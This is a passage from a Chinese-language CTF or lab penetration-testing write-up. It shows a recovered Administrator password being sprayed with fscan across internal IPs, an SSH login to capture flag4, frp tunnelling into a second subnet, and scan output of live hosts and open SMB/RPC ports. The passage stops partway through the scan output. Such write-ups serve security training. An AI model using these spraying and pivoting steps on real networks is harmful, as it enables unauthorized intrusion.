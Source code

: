 ![image-20231020141838083](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020141838083.png)

```bash
Administrator
pingguo13pro
```

用Administrator进行登录

查看远程桌面，没有预保留连接

![image-20231020142058866](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020142058866.png)

用该Administrator的密码进行密码喷射

```bash
fscan.exe -h 192.168.100.150,192.168.100.201,192.168.200.10,192.168.200.20 -pwd pingguo13pro -nopoc -np
```

可以 ssh 登录 192.168.200.20

![image-20231020144625281](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020144625281.png)

### flag4

成功连接，获取flag

![image-20231020144801112](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020144801112.png)

通过查看历史命令，发现 `172.16.100.50`，ping一下发现确实存活

![image-20231020145115377](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020145115377.png)

用frp搭建第二层网络

传入fscan扫

```bash
[root@mp-scene-afc48e7730e74b079acb86e64719fbf8 tmp]# ./fscan -h 172.16.100.50/16

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
(icmp) Target 172.16.100.1    is alive
(icmp) Target 172.16.100.50   is alive
(icmp) Target 172.16.100.10   is alive
(icmp) Target 172.16.100.90   is alive
(icmp) Target 172.16.100.254  is alive
[*] LiveTop 172.16.0.0/16    段存活数量为: 5
[*] LiveTop 172.16.100.0/24  段存活数量为: 5
[*] Icmp alive hosts len is: 5
172.16.100.50:139 open
172.16.100.90:135 open
172.16.100.50:135 open
172.16.100.90:445 open
172.16.100.50:445 open
172.16.100.90:139 open
172.16.100.10:445 open
172.16.100.10:139 open
172.16.100.10:135 open
[*] alive ports len is: 9
start vulscan
[*] NetInfo:
```